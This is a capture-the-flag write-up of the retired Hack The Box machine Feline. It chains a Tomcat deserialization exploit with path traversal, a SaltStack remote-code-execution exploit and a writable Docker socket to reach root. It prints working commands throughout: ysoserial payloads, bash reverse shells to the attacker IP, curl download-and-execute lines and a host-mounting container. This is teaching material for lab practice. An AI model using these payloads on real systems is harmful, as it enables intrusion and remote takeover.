

# Feline

This is the write-up for the box Feline that got retired at the 20th February 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.205    feline.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/feline.nmap 10.10.10.205
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 8080)

The title of the web page is _VirusBucket_ and it advertises a malware analysis and testing platform.
There is a menu on top and _Service_ forwards to a page where files can be uploaded:



According to the Nmap scan, it is an **Apache Tomcat** web server, but the default _/manager_ directory cannot be found and is probably disabled.

Uploading a file to the service and intercepting the request with **Burpsuite** to analyze the application:
```
POST /upload.jsp?email=testuser@test.local HTTP/1.1
Host: 10.10.10.205:8080
(...)

-------------------------38175474526266468582873467086
Content-Disposition: form-data; name="image"; filename="test.txt"
Content-Type: text/plain

This is a test file!

-----------------------------38175474526266468582873467086--
```
```
File uploaded successfully!
```

The test file gets uploaded successfully, but when leaving the _filename_ empty, it responds with Java errors:
```
<div id="error">
java.io.FileNotFoundException: /opt/samples/uploads (Is a directory)
(...)
at org.apache.commons.fileupload.disk.DiskFileItem.write(DiskFileItem.java:394)
(...)
```

One of the errors is from the framework **Apache Commons** that has functions to serialize data, which means there may be a **Java Deserialization** vulnerability in this application.

By searching for vulnerabilities in **Tomcat version 9.0.27**, an [article from Red Timmy Security](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/) can be found that describes a **Remote Code Execution** by deserialization.

A way to upload a serialized object to the disk is needed and when including it, the session ID will be obtained to gain code execution.

To create a serialized object, the tool [ysoserial](https://github.com/frohoff/ysoserial) will be used:
```
java -jar ysoserial.jar CommonsCollections4 "ping -c 1 10.10.14.7" > serialized.session
```

Uploading _serialized.session_ to the application:
```
POST /upload.jsp?email=testuser@test.local HTTP/1.1
(...)

Content-Disposition: form-data; name="image"; filename="serialized.session"
Content-Type: application/octet-stream

(...data...)
```

Sending another request to exploit a **Path Traversal** vulnerability in the _Cookie_ header and executing the uploaded file in the directory _/opt/samples/uploads_:
```
GET /service/ HTTP/1.1
(...)
Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/serialized
```

Tomcat will request the serialized object and the `tcpdump` listener on my IP will receive an ICMP package and proofs command execution.
Lets use the vulnerabilities to upload a reverse shell script and execute it.

Creating _shell.sh_ that will be uploaded and executed:
```
bash -i >& /dev/tcp/10.10.14.7/9001 0>&1
```

Creating two serialized objects, one that uploads _shell.sh_ with `curl` and another one that executes it:
```
java -jar ysoserial.jar CommonsCollections4 "curl 10.10.14.7:8000/shell.sh -o /dev/shm/shell.sh" > shellupload.session

java -jar /opt/ysoserial/ysoserial.jar CommonsCollections4 "bash /dev/shm/shell.sh" > shellexec.session
```

Uploading _shellupload.session_ and _shellexec.session_ on the web service:
```
Content-Disposition: form-data; name="image"; filename="shellupload.session"
Content-Type: application/octet-stream

(...data...)
```
```
Content-Disposition: form-data; name="image"; filename="shellexec.session"
Content-Type: application/octet-stream

(...data...)
```

Executing the serialized objects one after another:
```
Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/shellupload
```
```
Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/shellexec
```

The first request downloads _shell.sh_ and the second request executes it successfully and the listener on my IP and port 9001 starts a reverse shell as _tomcat_.

## Privilege Escalation

When checking the network interfaces, if shows a _docker0_ interface, so **Docker** is running on this box.
This user does not have permission to look at the running Docker instances, but the ports on localhost could give insight on that:
```
ss -lnpt

State    Recv-Q   Send-Q          Local Address:Port        Peer Address:Port   Process
(...)
LISTEN   0        4096                127.0.0.1:4505             0.0.0.0:*
LISTEN   0        4096                127.0.0.1:4506             0.0.0.0:*
LISTEN   0        4096                127.0.0.1:8000             0.0.0.0:*
(...)
```

Checking port 4505 and 4506 for web services:
```
curl -v -k localhost:4505

* Received HTTP/0.9 when not allowed
* Closing connection 0
```
```
curl -v -k localhost:4506

* Received HTTP/0.9 when not allowed
* Closing connection 0
```

There is no web service running on port 4505 and 4506, but these ports are by default used for [SaltStack](https://github.com/saltstack/salt) to automate management and configuration of servers.

Checking port 8000 for web services:
```
curl -v -k localhost:8000
```
```
* Empty reply from server
* Connection #0 to host localhost left intact
```

A web service is running on port 8000, but it may has a certificate, so HTTPS has to be checked:
```
curl -v -k https://localhost:8000
```
```
Server certificate:
* subject: C=US; ST=Utah; L=Salt Lake City; O=SaltStack; CN=localhost
(...)

HTTP/1.1 200 OK
Content-Type: application/json
Server: CherryPy/18.6.0
(...)

* Connection #0 to host localhost left intact
{"return": "Welcome", "clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"]}
```

It responds back with a _Server header_ of [CherryPy](https://docs.cherrypy.dev/en/latest/) which is a minimalist Python web framework and the JSON data indicates, that this could be some kind of API.
The certificates owner is **SaltStack** which proofs that these instances are used for that purpose.

### Exploiting SaltStack

There is a public vulnerability for **SaltStack** _(CVE-2020-11651)_ that can be used:
```
searchsploit saltstack

Saltstack 3000.1 - Remote Code Execution
```

To access the ports from our box, the tool [Chisel](https://github.com/jpillora/chisel) is useful to forward ports from a remote server.

Starting the **Chisel** server on our local client:
```
./chisel server -p 8001 --reverse
```

Forwarding the ports with **Chisel** from the box:
```
./chisel client 10.10.14.7:8001 R:4505:127.0.0.1:4505 R:4506:127.0.0.1:4506 R:8000:127.0.0.1:8000
```

Executing the exploit script to read _/etc/passwd_:
```
python3 48421.py -r /etc/passwd
```
```
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: gdHNelebSP/ioIZ9lqH/dat4LzNeDEwL9IlkecC+VQ2pBanpW4IajfHS4e4GzkOuiAE5J52oSkE=
[+] Attemping to read /etc/passwd from 127.0.0.1

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...)
```

Command execution works, so this can be used to gain a reverse shell:
```
python3 48421.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.7/9002 0>&1"'
```

After sending the command, the listener on my IP and port 9002 starts a reverse shell as _root_ on the hostname _2d24bf61767c_.
This hostname is randomly generated by **Docker** and we got access to the container.

### Privilege Escalation to root

To get an attack surface on the container, it is recommended to run any **Linux Enumeration script**:
```
curl 10.10.14.4/linpeas.sh | bash
```

This container can access the **Docker socket** and the file _/var/run/docker.sock_ is writable.
Also the _.bash_history_ file has contents and one of the commands hints at this:
```
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

A writable Docker socket can be used to escalate privileges as described on [HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket).

As the `docker` package is not installed in the container, the **Docker Web API** has to be used with `curl` to execute Docker functionalities.
In this case, it shows information about all images on the box:
```
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json

[
  {
    "Containers": -1,
    "Created": 1590787186,
    "Id": "sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": null,
    "RepoTags": [
      "sandbox:latest"
    ],
    "SharedSize": -1,
    "Size": 5574537,
    "VirtualSize": 5574537
  },
(...)
]
```

The [Docker Engine API documentation](https://docs.docker.com/engine/api/v1.41/) explains all options that are possible with this service.
With this knowledge, we are able to create our own Docker container that runs prepared commands as soon as it starts.

Copying the shell script _shell.sh_ from before to the host in _/tmp_ that will be executed:
```
tomcat@VirusBucket:/tmp$ wget 10.10.14.7/shell.sh
```

Creating a JSON file _feline_container.json_ that contains the image _sandbox_ on the box and the command to run when the container starts:
```json
{
        "Image":"sandbox",
        "cmd":["/bin/sh","-c","chroot /mnt sh -c \"bash /tmp/shell.sh\""],
        "Binds": [
                "/:/mnt:rw"
        ]
}
```

Downloading the JSON file to the container:
```
root@2d24bf61767c:~# wget 10.10.14.7/feline_container.json
```

Creating Docker container with the JSON file:
```
curl -X POST -H "Content-Type: application/json" -d @feline_container.json --unix-socket /var/run/docker.sock http://localhost/containers/create

{"Id":"a69a34cec39d48d5e5460e313be7c9fd8be5ba89c92a9972acfd6a01b7b623dd","Warnings":[]}
```

Starting the container:
```
curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/a69a34cec39d48d5e5460e313be7c9fd8be5ba89c92a9972acfd6a01b7b623dd/start
```

As soon as the container starts, the command from the JSON file will be executed.
It will execute the shell script _shell.sh_ from the host and the listener on my IP and port 9001 starts a reverse shell as root!
